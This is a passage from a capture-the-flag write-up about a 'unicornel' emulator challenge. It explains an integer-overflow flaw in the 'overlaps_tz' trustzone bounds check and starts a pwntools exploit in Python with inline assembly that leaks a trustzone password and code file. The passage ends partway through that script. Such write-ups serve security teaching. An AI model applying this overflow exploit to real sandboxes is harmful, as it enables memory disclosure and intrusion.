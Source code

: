 ```c
    uc_err err = safe_read(current,buffer,pointer,length);
    if(err != UC_ERR_OK) {
        free(buffer);
        return -1;
    }
    long ret = write(current->outfd,buffer,length);
    free(buffer);
    return ret;
}
```

`unicornel_write` acts as a bridge to output from the emulated process to the host. It employs a `safe_read` function that calls `overlaps_tz`. There is a major overflow vulnerability in the way `overlaps_tz` checks if the source address + size of address is less than the starting of a trustzone. If you just map the source address to `0xffffffffff0000` and set n to `0x10000`, it overflows and passes the check. This critically allows us to write data from a trustzone out to the host. 

## Exploit

We can first use the `unicornel_write` bug to extract the password that we will be loading onto a trustzone. 
We can also retreive the files containing the code for the other trustzones. Let's leak `memprot_x86_64` since we will eventually need it to change permissions. 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
        r'''
        .intel_syntax noprefix
        
        /* leak password */
        mov r12, 0xFFFFFFFFFFFFF000
        mov rbx, r12
        lea rcx, [rip+password] #password is pointer to the string password to name trustzone
        mov rax, 8 #call create_trustzone with file named password
        int 0x80

        mov rbx, r12
        mov rcx, 0x10 #to write 0x10 bytes from unicornel_write
        mov rax, 1 #call unicornel_write
        int 0x80

        mov rax, 9
        int 0x80
        
        /* leak memprot_x86_64 */
        mov r12, 0xFFFFFFFFFFFFF000
        mov rbx, r12
        lea rcx, [rip+memprot_x86_64] 
        mov rax, 8 
        int 0x80

        mov rbx, r12
        mov rcx, 0x10 #to write 0x10 bytes from unicornel_write
        mov rax, 1 #call unicornel_write
        int 0x80
        
        mov rax, 9
        int 0x80
```